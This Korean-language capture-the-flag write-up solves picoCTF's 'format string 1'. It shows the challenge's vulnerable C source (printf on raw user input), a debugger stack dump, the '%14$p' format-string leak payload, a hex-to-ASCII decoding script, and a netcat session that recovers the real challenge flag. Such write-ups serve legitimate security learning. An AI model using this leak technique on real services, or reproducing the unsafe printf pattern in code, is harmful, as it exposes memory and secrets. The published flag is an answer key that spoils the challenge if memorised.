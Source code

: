 # [format string 1](https://play.picoctf.org/practice/challenge/434?category=6&difficulty=2&originalEvent=73&page=1)
<br />

**Description:**
> Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!
<br />

**Source Code:**
```c
#include <stdio.h>

int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}

```
<br />

# 1. FLAG 오프셋 구하기
```bash
$ cat secret-menu-item-1.txt
BBBBBBBB
$ cat flag.txt
pico{this_is_flag}
$ cat secret-menu-item-2.txt
AAAAAAAA
```
분석을 위해 텍스트 파일 3개를 새로 생성합니다.

```yaml
pwndbg> b *main+275
Breakpoint 1 at 0x401309
pwndbg> r
...
Give me your order and I'll read it back to you:
CCCCCCCC
```
위 처럼 진행 후 스택을 확인하면 다음과 같습니다.
```yaml
pwndbg> x/30gx $rsp
0x7fffffffdb60: 0x4141414141414141      0x00007fffffff000a
0x7fffffffdb70: 0x00007fffffffdbb4      0x00007ffff7dcd600
0x7fffffffdb80: 0x00007ffff7fbf6c0      0x0000000000000003
0x7fffffffdb90: 0x00007fff00000000      0x00007ffff7ffe6b0
0x7fffffffdba0: 0x6968747b6f636970      0x616c665f73695f73
0x7fffffffdbb0: 0x00000000000a7d67      0x0000000000000000
0x7fffffffdbc0: 0x0000000000000000      0x00007fffffffdd50
0x7fffffffdbd0: 0x00007ffff7ffe6b0      0x00007ffff7ff287a
0x7fffffffdbe0: 0x4242424242424242      0x00007fffffff000a
0x7fffffffdbf0: 0x000000003de00ec7      0x00007ffff7fd111c
0x7fffffffdc00: 0x0000000000000001      0x00007fffffffdd50
0x7fffffffdc10: 0x0000000000000000      0x0000000000000000
0x7fffffffdc20: 0x4343434343434343      0x00007ffff7ffe300
0x7fffffffdc30: 0x00007ffff7ffe310      0x00007ffff7dd6cd8
0x7fffffffdc40: 0x00007fffffffdc90      0x00007ffff7ffe6b0
```
위에서부터 `0x7fffffffdb60`은 secret1, `0x7fffffffdba0`은 flag, `0x7fffffffdbe0`은 secret2 마지막으로 `0x7fffffffdc20`은 buf 입니다. 따라서 포맷스트링 인자 기준 flag의 오프셋은 14 입니다.
> [!NOTE]
포맷스트링 인자는 출력될 때, `rsi`, `rcx`, `rdx`, `r8`, `r9`, `rsp`, `rsp+8`, `rsp+0x10`, ... 순으로 출력이 됩니다. 따라서 flag의 오프셋은 14인 것입니다.
<br />

```bash
$ ./format-string-1
Give me your order and I'll read it back to you:
%14$p|%15$p|%16$p
Here's your order: 0x6968747b6f636970|0x616c665f73695f73|0xa7d67
Bye!
```
출력된 결과를 아스키로 바꾸면 FLAG를 얻을 수 있습니다.

```python
data = "0x6968747b6f636970|0x616c665f73695f73|0xa7d67"
data = data.split("|")

res = ""
for p in data:
    if p.startswith("0x"):
        hex_str = p[2:]
        if len(hex_str) % 2 != 0:
            hex_str = "0" + hex_str
        ascii_str = bytes.fromhex(hex_str)[::-1].decode("latin1", errors="ignore")
        res += ascii_str

print(res)
```
```bash
$ python3 test.py
pico{this_is_flag}
```
<br />

**Remote:**
```bash
$ nc mimas.picoctf.net 63454
Give me your order and I'll read it back to you:
%14$p|%15$p|%16$p|%17$p|%18$p
Here's your order: 0x7b4654436f636970|0x355f31346d316e34|0x3478345f33317937|0x34365f673431665f|0x7d363131373732
Bye!
```
```bash
$ python3 test.py
picoCTF{4n1m41_57y13_4x4_f14g_64277116}
```
